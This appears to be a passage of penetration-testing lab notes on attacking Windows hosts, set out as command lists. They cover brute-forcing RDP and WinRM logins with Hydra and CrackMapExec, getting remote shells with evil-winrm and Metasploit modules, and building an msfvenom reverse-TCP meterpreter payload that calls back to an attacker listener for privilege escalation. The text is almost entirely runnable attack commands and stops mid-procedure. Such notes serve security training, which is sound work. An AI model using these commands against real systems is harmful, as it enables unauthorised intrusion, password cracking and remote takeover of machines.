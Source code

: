                 `nmap -sV 10.4.18.131`
                
                `msfconsole`
                
                `use auxiliary/scanner/rdp/rdp_scanner set RHOSTS 10.4.18.131 set RPORT 3333 run` - detected RDP
                
                Bruteforce RDP login
                
                `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3333`
                
                `xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3333`
                
            - Exploiting Winrm
                
                `nmap --top-ports 7000 10.4.30.175`
                
                `nmap -sV -p 5985 10.4.30.175`
                
                5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
                
                Bruteforce winrm `crackmapexec winrm 10.4.30.175 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
                
                `crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "whoami" crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "systeminfo"`
                
                get command shell `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.4.30.175`
                
                Metasploit
                
                `search winrm_script use exploit/windows/winrm/winrm_script_exec set RHOSTS 10.4.30.175 set USERNAME administrator set PASSWORD tinkerbell set FORCE_VBS true exploit`
                
            
            **Windows Privilege Escalation**
            
            - Windows Kernal Exploits
                
                - Create payload `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=4444 -f exe -o payload.exe`
                - Start server python3 -m http.server
                - Download payload.exe
                - `msfconsole`
                - `use exploit/multi/handler`
                - `set payload windows/x64/meterpreter/reverse_tcp`
                - `set LHOST 192.168.31.128`
                - `set LPORT 4444`
                - `run`
                - Got meterpreter session , run in it background
                
                Another way - Use Windows Exploit Suggester
                
                `mkdir Windows-Exploit-Suggester cd Windows-Exploit-Suggester wget <https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/f34dcc186697ac58c54ebe1d32c7695e040d0ecb/windows-exploit-suggester.py`>
                
                `cd Windows-Exploit-Suggester python ./windows-exploit-suggester.py --update pip install xlrd --upgrade`
                
                Go to meterpreter session and upload an file
                